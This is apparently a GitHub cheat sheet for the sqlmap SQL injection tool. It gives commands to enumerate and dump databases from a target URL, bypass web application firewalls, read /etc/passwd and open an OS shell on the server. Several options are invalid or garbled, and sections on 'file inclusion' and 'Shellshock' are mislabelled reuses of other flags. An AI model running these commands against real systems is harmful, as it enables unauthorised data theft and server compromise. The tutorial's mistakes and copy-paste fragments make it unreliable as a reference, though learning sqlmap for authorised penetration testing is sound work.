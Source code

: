 # SQLMap

To get a general overview of its capabilities, you can simply run

```bash
sqlmap --help
```

### **Getting Started with SQLMap**

To perform a basic SQL injection test against a target URL, use the following command (replace **`TARGET_URL`** with the actual URL):

```bash
sqlmap -u TARGET_URL
```

### **SQLMap Output Description**

After running SQLMap, you can view detailed output and results using the **`-v`** (verbose) option

```bash
sqlmap -u TARGET_URL -v 3
```

### **Running SQLMap on an HTTP Request**

If you have an HTTP request saved in a file, you can use it for testing

```bash
sqlmap -r request.txt
```

### **Handling SQLMap Errors**

SQLMap provides various options to handle errors and timeouts. For example

```bash
sqlmap -u TARGET_URL --timeout=30 --retries=3
```

### **Attack Tuning**

You can fine-tune SQLMap attacks, e.g., specifying a specific database to target

```bash
sqlmap -u TARGET_URL --dbms=mysql
```

### **Database Enumeration**

To enumerate the databases on the target server

```bash
sqlmap -u TARGET_URL --dbs
```

#### **Enumerating Tables**

Once you've identified a specific database, you can enumerate the tables within that database:

```bash

# Enumerate tables in a specific database
sqlmap -u TARGET_URL -D database_name --tables
```

#### **Enumerating Columns in a Table**

After identifying a specific table, you can enumerate the columns within that table:

```bash
bashCe# Enumerate columns in a specific table
sqlmap -u TARGET_URL -D database_name -T table_name --columns
```

#### **Dumping Data from a Table**

To dump data from a specific table, you can use the following command:

```bash

# Dump data from a specific table
sqlmap -u TARGET_URL -D database_name -T table_name --dump
```

#### **Dumping Raw Data from a Table**

In some cases, you might want to dump raw data without any formatting. You can use the following command to achieve this

```bash
# Dump raw data from a specific table
sqlmap -u TARGET_URL -D database_name -T table_name --dump-all --sql-query "SELECT * FROM table_name"
```

#### **Dumping Data from All Tables in a Database**

To dump data from all tables in a specific database, you can use the **`--dump-all`** option:

```bash
# Dump data from all tables in a specific database
sqlmap -u TARGET_URL -D database_name --dump-all
```

#### **Dumping Data from a Specific Database**

To dump data from a specific database, use:

```bash
bashCopy code
sqlmap -u TARGET_URL --dbs
sqlmap -u TARGET_URL -D database_name --tables
sqlmap -u TARGET_URL -D database_name -T table_name --dump
```

#### **Custom SQL Query Execution**

You can also execute custom SQL queries using SQLMap:

```bash
# Execute a custom SQL query
sqlmap -u TARGET_URL --sql-query "SELECT * FROM table_name WHERE condition"
```

### **Advanced Database Enumeration**

For more advanced database enumeration.

```bash
sqlmap -u TARGET_URL --level=5 --risk=3 --dbs
```

### **Bypassing Web Application Protections**

SQLMap can help you bypass various security protections in web applications. For example, to bypass a Web Application Firewall (WAF):

```bash
sqlmap -u TARGET_URL --tamper=space2comment,between,randomcase
```

### **OS Exploitation**

SQLMap can assist in performing OS-level exploitation, like reading files on the underlying server:

```bash
sqlmap -u TARGET_URL --file-read="/etc/passwd"
```

#### **Database Banner Grabbing**

You can grab the database management system banner with:

```bash
sqlmap -u TARGET_URL --banner
```

### **Specifying a Parameter to Test**

To test a specific parameter in the URL, you can use the **`-p`** option:

```bash
sqlmap -u TARGET_URL -p parameter_name
```

### **Testing for SQL Injection Vulnerabilities in POST Data**

To test for SQL injection vulnerabilities in POST data, use:

```bash
sqlmap -u TARGET_URL --data="post_parameter=data"
```

### **Fingerprinting the Database Management System**

To identify the database management system, use

```bash
sqlmap -u TARGET_URL --dbms-fingerprint
```

### **Blind SQL Injection Tests**

For blind SQL injection, you can use techniques like

```bash
sqlmap -u TARGET_URL --dbms=mysql --technique=BOOLEAN
sqlmap -u TARGET_URL --dbms=mysql --technique=TIME
```

### **Batch Mode and Saving Results:**

To run SQLMap in batch mode and save results to a file

```bash
sqlmap -u TARGET_URL --batch --output=results.txt
```

### **Proxy Usage**

If you're testing through a proxy, specify it:

```bash
sqlmap -u TARGET_URL --proxy=http://proxy-server:port
```

### **HTTP Authentication:**

For sites with HTTP authentication, provide credentials

```bash
bashCopy code
sqlmap -u TARGET_URL --auth-type=BASIC --auth-cred="username:password"
```

### **Custom User-Agent Header:**

To set a custom User-Agent header:

```bash
sqlmap -u TARGET_URL --user-agent="Custom User-Agent"
```

### **Tampering with Requests**

You can apply tamper scripts to requests:

```bash
sqlmap -u TARGET_URL --tamper=space2plus
```

### **Testing for File Inclusion Vulnerabilities**

To test for file inclusion vulnerabilities:

```bash
sqlmap -u TARGET_URL --file-read="/etc/passwd"
```

### **Exploiting Shellshock Vulnerabilities**

For exploiting Shellshock vulnerabilities, use:

```bash
sqlmap -u TARGET_URL --os-shell
```
